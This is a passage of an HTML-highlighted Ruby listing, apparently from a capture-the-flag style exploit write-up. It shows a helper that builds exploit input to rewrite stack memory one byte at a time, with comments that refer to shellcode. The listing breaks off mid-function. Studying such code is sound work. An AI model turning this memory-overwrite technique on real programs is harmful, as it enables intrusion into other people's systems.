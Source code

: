 <span class="lnr"> 49 </span>    <span class="Identifier">@@used_chars</span>[c] = <span class="Identifier">@@used_chars</span>[c].nil? ? <span class="Constant">1</span> : <span class="Identifier">@@used_chars</span>[c] + <span class="Constant">1</span>
<span class="lnr"> 50 </span>
<span class="lnr"> 51 </span>    <span class="Comment"># Append it to the buffer</span>
<span class="lnr"> 52 </span>    buf += c.chr
<span class="lnr"> 53 </span>  <span class="Statement">end</span>
<span class="lnr"> 54 </span>
<span class="lnr"> 55 </span>  <span class="Statement">return</span> buf
<span class="lnr"> 56 </span><span class="rubyDefine">end</span>
<span class="lnr"> 57 </span>
<span class="lnr"> 58 </span><span class="Comment"># This will edit any memory address up to 32 bytes away on the stack. I</span>
<span class="lnr"> 59 </span><span class="Comment"># wrote it because I got sick of doing this manually.</span>
<span class="lnr"> 60 </span><span class="Comment">#</span>
<span class="lnr"> 61 </span><span class="Comment"># Basically, it looks at two variables - the 'from' is the original, known</span>
<span class="lnr"> 62 </span><span class="Comment"># value, and 'to' is value we want it to be. It modifies each of the</span>
<span class="lnr"> 63 </span><span class="Comment"># variables one byte at a time, by incrementing the byte.</span>
<span class="lnr"> 64 </span><span class="Comment">#</span>
<span class="lnr"> 65 </span><span class="Comment"># Each byte increment is one character in the output, so the more different</span>
<span class="lnr"> 66 </span><span class="Comment"># the values are, the bigger the output gets (eventually getting too big)</span>
<span class="lnr"> 67 </span><span class="rubyDefine">def</span> <span class="Identifier">edit_memory</span>(from, to, location)
<span class="lnr"> 68 </span>  <span class="Comment"># Handle each of the 8 bytes, though in practice I think we only needed</span>
<span class="lnr"> 69 </span>  <span class="Comment"># the first two</span>
<span class="lnr"> 70 </span>  <span class="Constant">0</span>.upto(<span class="Constant">7</span>) <span class="Statement">do</span> |<span class="Identifier">i</span>|
<span class="lnr"> 71 </span>    <span class="Comment"># Get the before and after values for the current byte</span>
<span class="lnr"> 72 </span>    from_i = (from &gt;&gt; (<span class="Constant">8</span> * i)) &amp; <span class="Constant">0xFF</span>
<span class="lnr"> 73 </span>    to_i   = (to   &gt;&gt; (<span class="Constant">8</span> * i)) &amp; <span class="Constant">0xFF</span>
<span class="lnr"> 74 </span>
<span class="lnr"> 75 </span>    <span class="Comment"># As long as the bytes are different, add the current 'increment' character</span>
<span class="lnr"> 76 </span>    <span class="Statement">while</span>(from_i != to_i) <span class="Statement">do</span>
<span class="lnr"> 77 </span>      <span class="Comment"># If we already have the location from the shellcode or something, don't</span>
<span class="lnr"> 78 </span>      <span class="Comment"># repeat it</span>
<span class="lnr"> 79 </span>      <span class="Statement">if</span>(!<span class="Identifier">@@used_chars</span>[location+i].nil? &amp;&amp; <span class="Identifier">@@used_chars</span>[location+i] &gt; <span class="Constant">0</span>)
<span class="lnr"> 80 </span>        <span class="Identifier">$stderr</span>.puts(<span class="Special">&quot;</span><span class="Constant">Saved a character!</span><span class="Special">&quot;</span>)
<span class="lnr"> 81 </span>        <span class="Identifier">@@used_chars</span>[location+i] -= <span class="Constant">1</span>
<span class="lnr"> 82 </span>      <span class="Statement">else</span>
<span class="lnr"> 83 </span>        my_print((location+i).chr)
<span class="lnr"> 84 </span>      <span class="Statement">end</span>
<span class="lnr"> 85 </span>
<span class="lnr"> 86 </span>      <span class="Comment"># Increment as a byte</span>
<span class="lnr"> 87 </span>      from_i = (from_i + <span class="Constant">1</span>) &amp; <span class="Constant">0xFF</span>
<span class="lnr"> 88 </span>    <span class="Statement">end</span>